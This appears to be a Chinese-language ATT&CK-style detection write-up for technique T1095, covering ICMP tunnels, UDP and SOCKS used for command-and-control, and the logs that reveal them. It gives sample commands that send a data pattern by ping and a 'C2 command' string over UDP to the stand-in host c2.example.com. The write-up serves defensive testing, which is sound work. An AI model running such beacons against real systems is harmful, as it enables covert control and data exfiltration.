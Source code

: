 # T1095-非应用层协议

## 描述

攻击者利用非应用层协议（如ICMP、UDP、SOCKS或SOL）在主机与命令与控制（C2）服务器间，或网络内受感染主机间进行通信（T1095）。这些协议因其在网络中的普遍性或较低的监控频率，常被用于隐藏C2通信或数据渗出。非应用层协议（如ICMP）通常不承载应用数据，攻击者可在其数据字段中嵌入恶意指令或数据，伪装成正常网络活动。相比HTTP/HTTPS等应用层协议，非应用层协议的流量更难被传统防火墙或IDS检测。

常见场景包括：
- **ICMP隧道**：通过ICMP（Ping）数据包传输C2指令或数据。
- **UDP通信**：利用自定义UDP数据包进行隐秘通信。
- **SOCKS代理**：通过SOCKS协议重定向C2流量。

检测重点在于识别异常协议流量（如ICMP数据包异常大小）、不典型数据流及相关进程的网络行为。

## 测试案例

1. **ICMP隧道**  
   使用工具（如`pingtunnel`）通过ICMP数据包传输数据，模拟C2通信。  
2. **UDP自定义通信**  
   使用PowerShell或Python发送自定义UDP数据包，嵌入C2指令。  
3. **SOCKS代理**  
   配置SOCKS代理工具（如`proxychains`）重定向C2流量。  

### 示例命令
- **ICMP数据传输**（需管理员权限，假设使用`ping`模拟）：
  ```cmd
  ping -p 41424344 c2.example.com
  ```
- **UDP数据发送**（PowerShell）：
  ```powershell
  $client = New-Object System.Net.Sockets.UdpClient
  $data = [System.Text.Encoding]::ASCII.GetBytes("C2 command")
  $client.Send($data, $data.Length, "c2.example.com", 12345)
  $client.Close()
  ```
- **清理**：
  ```powershell
  Stop-Process -Name powershell -Force
  ```

## 检测日志

**Netflow日志**  
- 记录ICMP、UDP或其他非应用层协议流量，捕获源/目标IP、端口、数据量及会话时long。  

**Sysmon日志**  
- **事件ID 1**：记录触发协议通信的进程（如`ping.exe`、`powershell.exe`）创建及命令行参数。  
- **事件ID 3**：记录网络连接，捕获ICMP或UDP流量（目标IP/端口）。  
- **事件ID 7**：记录加载的模块，检测代理工具的DLL。  

**Windows安全日志**  
- **事件ID 4688**：记录可疑进程（如`ping.exe`）创建。  
